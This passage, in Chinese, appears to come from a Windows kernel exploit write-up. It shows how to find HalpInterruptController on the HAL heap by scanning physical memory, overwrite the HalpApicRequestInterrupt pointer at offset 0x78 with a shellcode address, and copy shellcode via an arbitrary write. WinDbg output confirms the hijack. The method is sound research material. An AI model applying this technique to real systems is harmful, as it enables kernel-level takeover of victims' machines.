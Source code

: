**寻找 HAL：** HAL 堆是在 HAL.DLL 引导过程中创建的，HAL 堆上存放了 HalpInterruptController（目前也是随机化的），其中保存了一些函数指针，其偏移 0x78 处存放了 hal!HalpApicRequestInterrupt 函数指针。这个函数和中断相关，会被系统一直调用，所以可通过覆盖这个指针劫持执行流程。

```
0: kd> dq poi(hal!HalpInterruptController)
fffff7e6`80000698  fffff7e6`800008f0 fffff802`04486e50
fffff7e6`800006a8  fffff7e6`800007f0 00000000`00000030
fffff7e6`800006b8  fffff802`04422d80 fffff802`04421b90
fffff7e6`800006c8  fffff802`04422520 fffff802`044226e0
fffff7e6`800006d8  fffff802`044226b0 00000000`00000000
fffff7e6`800006e8  fffff802`044223c0 00000000`00000000
fffff7e6`800006f8  fffff802`04454560 fffff802`04432770
fffff7e6`80000708  fffff802`04421890 fffff802`0441abb0

0: kd> u fffff802`0441abb0
hal!HalpApicRequestInterrupt:
fffff802`0441abb0 48896c2420      mov     qword ptr [rsp+20h],rbp
fffff802`0441abb5 56              push    rsi
fffff802`0441abb6 4154            push    r12
fffff802`0441abb8 4156            push    r14
fffff802`0441abba 4883ec40        sub     rsp,40h
fffff802`0441abbe 488bb42480000000 mov     rsi,qword ptr [rsp+80h]
fffff802`0441abc6 33c0            xor     eax,eax
fffff802`0441abc8 4532e4          xor     r12b,r12b

```

可通过遍历物理页找到 HalpInterruptController 地址，如下所示，在虚拟机调试环境下该地址位于第一个物理页。在获得这个地址后，可通过 0x78 偏移找到 alpApicRequestInterrupt 函数指针地址，覆盖这个地址为 Shellcode 地址 0xfffff78000000800，等待劫持执行流程。

```
1: kd> !dq 1000
#    1000 00000000`00000000 00000000`00000000
#    1010 00000000`01010600 00000000`00000000
#    ......
#    18f0 fffff7e6`80000b20 fffff7e6`80000698
#    1900 fffff7e6`80000a48 00000000`00000004

```

**Shellcode 复制 && 执行：** 通过任意地址写将 Shellcode 复制到 0xfffff78000000800，等待 “alpApicRequestInterrupt 函数” 被调用。

```
0: kd> g
Breakpoint 0 hit
fffff780`00000800 55              push    rbp

0: kd> k
 # Child-SP          RetAddr               Call Site
00 fffff800`482b24c8 fffff800`450273a0     0xfffff780`00000800
01 fffff800`482b24d0 fffff800`4536c4b8     hal!HalSendNMI+0x330
02 fffff800`482b2670 fffff800`4536bbee     nt!KiSendFreeze+0xb0
03 fffff800`482b26d0 fffff800`45a136ac     nt!KeFreezeExecution+0x20e
04 fffff800`482b2800 fffff800`45360811     nt!KdEnterDebugger+0x64
05 fffff800`482b2830 fffff800`45a17105     nt!KdpReport+0x71
06 fffff800`482b2870 fffff800`451bbbf0     nt!KdpTrap+0x14d
07 fffff800`482b28c0 fffff800`451bb85f     nt!KdTrap+0x2c
08 fffff800`482b2900 fffff800`45280202     nt!KiDispatchException+0x15f

```
